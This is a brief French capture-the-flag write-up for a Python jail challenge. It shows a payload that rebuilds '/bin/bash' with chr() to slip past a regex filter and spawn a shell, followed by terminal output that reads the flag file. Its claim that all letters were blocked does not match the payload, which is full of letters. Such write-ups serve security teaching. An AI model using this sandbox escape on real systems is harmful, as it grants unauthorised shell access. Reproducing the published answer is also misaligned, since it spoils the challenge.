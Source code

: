 Pour ce 3ème PyJail, l'admin a bloqué l'utilisation de toutes les lettres !

On peut néanmoins bypass la regex comme ceci :
```bash
Enter your calcul below:
__import__('pty').spawn('/bin/bas'+chr(ord('h')))
pwnuser@e710bfd4a2be:~$ ls -al
ls -al
total 36
drwxr-xr-x 1 pwnflag pwnflag 4096 Apr 14 19:08 .
drwxr-xr-x 1 root    root    4096 Apr 12 22:21 ..
-rw-r--r-- 1 pwnuser pwnuser  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 pwnuser pwnuser 3789 Apr 12 22:21 .bashrc
-rw-r--r-- 1 pwnuser pwnuser  807 Apr  4  2018 .profile
-rwsr-xr-x 1 root    root     136 Apr 14 19:05 entry.sh
-rw-r--r-- 1 root    root      39 Apr 14 19:05 flag.txt
drwxr-xr-x 1 root    root    4096 Apr 14 19:08 programs
-rwsr-xr-x 1 pwnflag pwnflag 1061 Apr 14 19:05 shell.py
pwnuser@e710bfd4a2be:~$ cat flag.txt
cat flag.txt
HeroCTF{chr_w0rk_t00_t0_sp4wn_4_sh3ll}
```
HeroCTF{chr_w0rk_t00_t0_sp4wn_4_sh3ll}
